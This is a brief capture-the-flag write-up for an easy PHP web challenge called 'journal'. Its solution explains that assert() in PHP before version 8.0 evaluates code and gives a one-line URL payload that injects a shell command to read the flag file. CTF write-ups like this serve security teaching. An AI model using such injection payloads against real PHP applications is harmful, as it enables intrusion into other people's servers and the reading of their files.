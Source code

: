 # journal
**Category:** Web
**Difficulty:** Easy
**Author:** Eth007

## Description

dear diary, there is no LFI in this app

## Distribution

- `journal-dist.zip`
- link

## Solution

- PHP assert() before 8.0 executes code
- http://localhost/?file=%27,die(`cat%20/flag*`));//
